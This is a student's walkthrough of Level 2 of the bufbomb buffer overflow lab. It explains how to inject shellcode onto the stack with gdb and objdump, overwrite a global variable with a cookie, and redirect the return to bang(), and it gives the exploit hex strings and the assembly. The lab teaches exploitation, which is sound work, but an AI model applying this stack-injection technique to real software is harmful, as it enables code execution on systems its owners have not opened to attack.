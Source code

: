 Level 2
=======

Goal = inject machine instructions onto the stack, have those instructions execute and then redirect function getbuf() to function bang()

To find the address of function ```bang()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find bang():

```
08049012 <bang>:
 8049012:       55                      push   %ebp
 8049013:       89 e5                   mov    %esp,%ebp
 8049015:       83 ec 18                sub    $0x18,%esp
 8049018:       a1 ec c1 04 08          mov    0x804c1ec,%eax <=== 1)
 804901d:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax <=== 2)
 8049023:       75 1e                   jne    8049043 <bang+0x31>
 8049025:       89 44 24 04             mov    %eax,0x4(%esp)
 8049029:       c7 04 24 58 a1 04 08    movl   $0x804a158,(%esp)
 8049030:       e8 ab f8 ff ff          call   80488e0 <printf@plt>
 8049035:       c7 04 24 02 00 00 00    movl   $0x2,(%esp)
 804903c:       e8 93 00 00 00          call   80490d4 <validate>
 8049041:       eb 10                   jmp    8049053 <bang+0x41>
 8049043:       89 44 24 04             mov    %eax,0x4(%esp)
 8049047:       c7 04 24 69 9f 04 08    movl   $0x8049f69,(%esp)
 804904e:       e8 8d f8 ff ff          call   80488e0 <printf@plt>
 8049053:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 804905a:       e8 31 f9 ff ff          call   8048990 <exit@plt>

 ```
<b>write down the address of bang(). Mine is 08049012</b>

Now type:

```
unix> perl -e 'print "AA "x44, "08 04 90 12 " ' > hexlevel2
unix> ./hex2raw < hexlevel2 > raw
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu < raw
```

Now use the gdb examine command ```x``` to locate the address and the value held for the variable ```global_value``` by typing:

```
(gdb) x/x &global_value
```

Gives you:

```
(gdb) x/x &global_value
0x804c1ec <global_value>:       0x00000000
```

Now break bang() and show disassembly:
```
(gdb) break bang
(gdb) cont
(gdb) disas
```

Break bang() returns 0x08049018????????????????

(gdb) cont
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x18900408 in ?? ()

From level 1 calculations get your little endian id. Mine is: 0x 0c c7 8c 2d

More specific goal = 1) replace the value at 0x804c1ec with my cookie as the little endian id. 2) push the return address to bang() onto the stack 3) return

Since we now now the address of the global variable cookie we can create an assembly instruction to mov my cookie value into the location of global_value. 

This can be done by writing the assembly instructions into a .s file, compiling to a binary .o file. Disassemblying the binary file to get the hex that will be used for the exploit string.

First create the file assemblylevel2.s with the following contents:
```
movl $0x0cc78c2d, 0x0804c1ec # move cookie to global_variable
pushl $0x08049012            # push address of bang()
ret                          # return to address bang()
```

then type:
```
unix> gcc -m32 -c assemblylevel2.s
unix> objdump -d assemblylevel2.o > assemblylevel2.d
unix> cat assemblylevel2.d
```

Gives you:
```
assemblylevel2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   c7 05 ec c1 04 08 2d    movl   $0xcc78c2d,0x804c1ec
   7:   8c c7 0c
   a:   68 12 90 04 08          push   $0x8049012
   f:   c3                      ret
```

Now that I have the hex representation of the assembly to manipulate the bufbomb binary I can put this into the buffer overflow so that it is pushed onto the stack and is executed.

But before I correctly push instructions onto the stack I first have to tell the binary bufbomb where to look for my new instructions. 

Let's first just add the new assembly instructions to see where they are on the stack by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "EE "x4, "c7 05 ec c1 04 08 2d 8c c7 0c 68 12 90 04 08 c3 " ' > hexlevel2_2
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_2 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) i r
```

Gives you:
```
(gdb) i r
eax            0x55683328       1432892200
ecx            0xa      10
edx            0xaec334 11453236
ebx            0x0      0
esp            0x55683318       0x55683318
ebp            0x55683350       0x55683350
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8048c15        0x8048c15 <getbuf+17>
eflags         0x212    [ AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```

Now let's take a look inside $esp with:
```x/20x $esp```

Gives you 20 words to examine from $esp:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x0098db36      0x00aeb32c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0xeeeeeeee
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0x8c2d0804      0x12680cc7      0xc3080490
```

The address in %ebp is at 0x55683350 which means it is overwritten by 0xdddddddd. The return address of %ebp is also overwritten by 0xeeeeeeee. We can also see our assembly instructions are now on the stack.

In order for the exploit to work, the buffer overflow will have to push the return address of the beginning of the exploit. Looking at the stack shows where the beginning of the exploit starts (0xeeeeeeee). So just replace 0xeeeeeeee with the little endian hex representation of the address where we begin our string exploit at 0x55683358.

0x 55 68 33 58 # is the original order
0x 58 33 68 55 # is the little endian order

Create the new input file by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "58 33 68 55 ", "c7 05 ec c1 04 08 2d 8c c7 0c 68 12 90 04 08 c3 " ' > hexlevel2_3
```



